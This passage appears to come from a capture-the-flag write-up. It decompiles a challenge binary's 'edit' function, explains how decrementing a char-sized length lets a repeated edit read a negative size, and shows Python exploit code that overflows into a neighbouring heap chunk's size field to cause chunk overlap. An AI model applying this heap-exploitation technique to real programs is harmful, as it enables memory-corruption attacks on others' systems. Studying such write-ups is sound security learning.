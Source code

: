 ```c=
void edit(void)

{
  int index;
  char size;
  
  puts("Which user?");
  __isoc99_scanf(&DAT_00102074,&index);
  if ((index < 0) || (0x13 < index)) {
    puts("Out of range detected");
  }
  else {
    if (*(long *)(&user_storage + (long)index * 8) == 0) {
      puts("Bye hacker");
                    /* WARNING: Subroutine does not return */
      exit(0);
    }
    size = *(char *)(*(long *)(&user_storage + (long)index * 8) + 8);
    puts("Input message content >>");
    read_all(*(undefined8 *)(*(long *)(&user_storage + (long)index * 8) + 0x18),size + -1);
    *(char *)(*(long *)(&user_storage + (long)index * 8) + 8) =
         *(char *)(*(long *)(&user_storage + (long)index * 8) + 8) + -1;
  }
  return;
}

```

In add function, after created a user_ptr, the program will store the size in *user_ptr+8.
```
*(char *)(*(long *)(&user_storage + (long)user_index * 8) + 8) = size;
```
In edit function, the program will read size-1 byte and decrease the size and store it when we are finished editing. 
```
read_all(*(undefined8 *)(*(long *)(&user_storage + (long)index * 8) + 0x18),size + -1);
*(char *)(*(long *)(&user_storage + (long)index * 8) + 8) =
         *(char *)(*(long *)(&user_storage + (long)index * 8) + 8) + -1;
```
### Step2: exploit the bug
Therefore, we can exploit it to get a unlimited size.
1. we create a size = 1 chunks.
2. we edit it once, the program will decrease the size to be 0
3. if we edit it again, the read size will become negative number.

Which mean we got a most unlimited size to write our data into the chunk.

Thought this bug, we can create overflow the data to change the size of neighbour chunk's size (this size is the chunk size not the read size) and free it to have a unsorted bin and cause chunks overlap.
```python=
add(1, "A")
# chunks for padding
for i in range(9):
    add(0x40, b"/bin/sh\x00")
edit(0, "\n")

# change the size of neighbour
payload = p64(0)*3 + p64(0x431)
edit(0, payload)

# free it to get a unsorted bin
remove(1)
```